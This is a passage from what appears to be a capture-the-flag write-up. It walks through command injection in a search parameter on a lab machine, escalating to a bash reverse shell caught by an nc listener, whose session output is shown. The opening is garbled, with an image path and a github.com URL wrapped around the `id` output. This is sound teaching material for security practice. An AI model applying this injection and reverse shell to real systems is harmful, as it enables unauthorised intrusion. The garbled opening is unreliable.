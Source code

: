 The result is URL-encoded, but decoding that gives, which is the output of the `id` command:

```

https://www.github.com/search?q=uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),999(vboxsf)

```

### RCE

#### POC

I’ll try submitting that payload by finding the POST request in Burp Proxy, and sending that request to Burp Repeater. There, I’ll edit the `query` to be my parameter:

![image-20230331145602239](/img/image-20230331145602239.png)

Once it’s there, I’ll want to URL encode it by selecting everything between my `'` and pushing Ctrl-u. Clicking “Send” shows success:

![image-20230331145706180](/img/image-20230331145706180.png)

If I select the response and push Ctrl-Shift-u, the URL decoded text pops up:

![image-20230331145749192](/img/image-20230331145749192.png)

#### Shell

Still in Repeater, I’ll replace `id` with a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

![image-20230331150452775](/img/image-20230331150452775.png)

I’ll need to select the new stuff and Ctrl-u to URL encode it:

![image-20230331150513958](/img/image-20230331150513958.png)

It is important to be careful about what is getting URL encoded. `+` becomes `%2b`, but space becomes `+`. It’s important that every be encoded only once.

I’ll start `nc` listening on 443 and send the request:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.208 46054
bash: cannot set terminal process group (1625): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$

```

I’ll do the standard [shell upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q):
